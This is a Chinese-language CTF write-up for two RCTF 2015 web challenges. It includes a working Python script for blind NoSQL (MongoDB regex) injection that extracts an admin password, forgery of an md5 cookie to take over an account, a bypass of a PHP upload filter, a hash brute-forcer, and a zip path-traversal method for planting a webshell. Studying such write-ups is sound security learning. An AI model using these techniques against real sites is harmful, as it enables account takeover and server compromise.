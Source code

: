# RCTF 2015

## weeeeeb3	WEB	150

先注册个账户，登陆进去发现cookie里面有个字段，发现其实是md5("$uid:$username")     
尝试把它改掉，发现自己个人信息页进不去了，结合forget password页来看，估计就是用忘记密码找回admin账号，    
把那个字段改成md5("1:admin")，个人信息页的url中把uid=1，就可以看见admin是1993/01/01的福建省福州市闽侯县人，
然后找回密码就可以了（然而好像有人搅屎，改了好几次才登录进去）    
进入admin后台，发现原代码里是要module=filemanage&do=???，猜测是do=upload    
发现页面给了个上传文件的表单（吐槽一下这次怎么全是要上传文件- -），表现如下：    
- 上传.php后缀：返回is a php!
- 上传非.php后缀，content-type改成image/jpg: you know what i want
- 上传.php5后缀，content-type改成image/jpg:: not a really php file
- 文件里含有<?php : something shows that is a php file!

最后翻官网
http://php.net/manual/en/language.basic-syntax.phptags.php
上传`<script language="php">`成功拿到flag.

## login WEB 300

### Mongo注入

```python
import requests, string

headers = {
	'Cookie': 'user=czo1OiJndWVzdCI7',
	'X-Requested-With': 'XMLHttpRequest'
}

def probe(name, pwd):
	data = {
		'username[$regex]': '/^' + ''.join(['\\x%02x' % ord(x) for x in name]) + '.*$/',
		'password[$regex]': '/^' + ''.join(['\\x%02x' % ord(x) for x in pwd]) + '.*$/',
	}
	r = requests.post('http://180.76.178.54:8005/53a0fb1b692f02436c3b5dda1db9c361/checkLogin.php', headers=headers, data=data)
	if 'I think you can get them' in r.content:
		return True
	assert 'username or password error' in r.content
	return False

cur_user = 'ROIS_ADMIN'
cur_pass = 'pas5woRd_i5_45e2884c4e5b9df49c747e1d'

while True:
	print 'Cur:', cur_user
	for c in string.printable:
		if probe(cur_user + c, ''):
			cur_user += c
			break
	else:
		break

while True:
	print 'Cur:', cur_pass
	for c in string.printable:
		if probe(cur_user, cur_pass + c):
			cur_pass += c
			break
	else:
		break

print 'User:', cur_user
print 'Pass:', cur_pass
```

成功得到用户名，密码
```
cur_user = 'ROIS_ADMIN'
cur_pass = 'pas5woRd_i5_45e2884c4e5b9df49c747e1d'
```

### 登录后台

服务器关了有点蛋疼，记不太清后台页面说了一大堆什么
看到界面里有个上传zip的地方，大概还有就是根据页面给的提示，
给了个pclzip 2.8.2模块的代码（后来发现修改过），
还有html页面源代码里藏了一部分php代码，发现要碰撞一个PBKDF2才能上传文件
也就是上传文件是user-agent必须以rois_special_user_agent开头，长为65，
$_COOKIE['backdoor']要跟ua的hash一样，那么要构造碰撞

### PBKDF2+HMAC hash collisions

直接把下面网址的代码copy下来改改就好了
https://mathiasbynens.be/notes/pbkdf2-hmac

```python
#!/usr/bin/env python
# coding=utf-8

import hashlib
import itertools
import re
import string
import sys

TOTAL_LENGTH = 65
PREFIX = 'rois_special_user_agent'

prefix_length = len(PREFIX)
brute_force_length = TOTAL_LENGTH - prefix_length
passwords = itertools.product(string.ascii_lowercase, repeat=brute_force_length)
regex_printable = re.compile('[\x20-\x7E]+$')
base_hasher = hashlib.sha1()
base_hasher.update(PREFIX)

for item in itertools.imap(''.join, passwords):
  hasher = base_hasher.copy()
  hasher.update(item)
  sha1_hash = hasher.digest()
  if regex_printable.match(sha1_hash):
    print u'%s \U0001F4A5 %s'.encode('utf-8') % (PREFIX + item, sha1_hash)
```

跑出来的结果
![WEB300_HASH_COLL](web300_hash.png)

所以：
`User-Agent:rois_special_user_agentaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaamipvkd`
`backdoor=3-Rfm^Bq%3bZZAcl]mS&eE`

### 构造特殊zip

一开始不知道要干嘛，上传什么zip,后来发现上传路径里面是/upload/image/*    
后来搜到这篇帖子:
http://www.sa666.com/thread-39060-1-1.html

参考那篇帖子，构造一个压缩包，内含有
1.php
../1.php
../../1.php
../../../1.php
然后把某个文件在zip中的部分破坏一下，全改成a，让解压到一半的时候异常退出，防止解压出的文件被删掉
![WEB300_BAD_ZIP](web300_bad_zip.png)

### 本地测试
把那个.php.bak下载下来，改名叫pclzip.php，本地用下面的代码跑跑解压构造好的zip看看，
```php
<?php
require('pclzip.php');
$pclzip = new PclZip('w.zip');
var_dump($pclzip->extract());
var_dump($pclzip->errorInfo(true));
```

发现解压出来的文件被改了名字，是一个md5，搜了下pclzip.php，发现4415行中
```php
    // ----- Get filename
    if ($p_header['filename_len'] != 0)  {
      $p_header['filename'] = fread($this->zip_fd, $p_header['filename_len']);
      $preNum = substr_count($p_header['filename'], '../');
      $prefix = str_repeat('../', $preNum);
      $element = explode('.', str_replace($prefix, '', $p_header['filename']));
      $fname = $prefix . md5($element[0]. 'RoisFighting'). '.' .end($element);
      $p_header['filename'] = $fname;
    }
```
可见解压出的文件名字是md5(原文件名 . 'RoisFighting').

把压缩包上传上去，返回fail，说明成功了
![WEB300_payload](web300_payload.png)

访问新文件名对应的url就可以拿到flag了。
